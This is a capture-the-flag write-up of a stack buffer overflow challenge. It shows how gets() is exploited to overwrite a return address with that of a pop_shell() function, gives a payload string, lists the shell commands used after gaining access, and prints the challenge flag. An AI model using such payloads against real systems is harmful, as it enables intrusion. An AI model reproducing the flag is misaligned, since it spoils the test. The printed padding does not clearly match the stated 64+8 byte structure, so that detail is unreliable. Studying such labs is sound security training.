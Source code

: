### **Challenge Name: Exploit 100 - A Finer Token Never Was**

---

### **Description**

Here's a simple exploit challenge for you. There's a little bit of a twist to make sure it's not too easy, but it's otherwise a straightforward challenge.

#### **Target**  
`35.184.182.18 32002`

#### **Files Provided**  
- [Exploit100-1](Resources/Exploit100-1)  
- [Exploit100-1.c](Resources/Exploit100-1.c)

---

### **Approach**

#### **Step 1: Analyze the Source Code**
Examined `Exploit100-1.c` and identified a **buffer overflow vulnerability** due to the use of `gets()` without size constraints. 

#### **Step 2: Identify Vulnerable Function**
Located the function to exploit:  

```c
void pop_shell() {
    system("/bin/sh");
}
```

The goal is to overwrite the return address on the stack with the address of `pop_shell()`.

#### **Step 3: Find the Address of `pop_shell()`**
Used **gdb** to find the address of `pop_shell()`:

```bash
gdb Exploit100-1
(gdb) disassemble pop_shell
```

Result:  
`pop_shell()` is located at `0x0000000000401152`.

#### **Step 4: Construct Payload**
Calculated the buffer size:  
- Buffer: 64 bytes  
- Saved register space: 8 bytes  

Payload structure:  
`<64 'A's><8 'B's><Address of pop_shell()>`

Payload in little-endian format:  
```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbb\x52\x11\x40
```

#### **Step 5: Exploit the Target**
Wrote the payload to a script [payload.py](Resources/payload.py) to send it to the target. This executed the `pop_shell()` function and provided shell access.

#### **Step 6: Retrieve the Flag**
Navigated the shell to locate and read the flag:

```bash
ls
cd home
cd Exploit100-1
ls
cat Exploit100-1.txt
```

Output:  
`poctf{uwsp_411_4n1m4l5_4r3_3qu41}`

---

### **Flag**

`poctf{uwsp_411_4n1m4l5_4r3_3qu41}`

---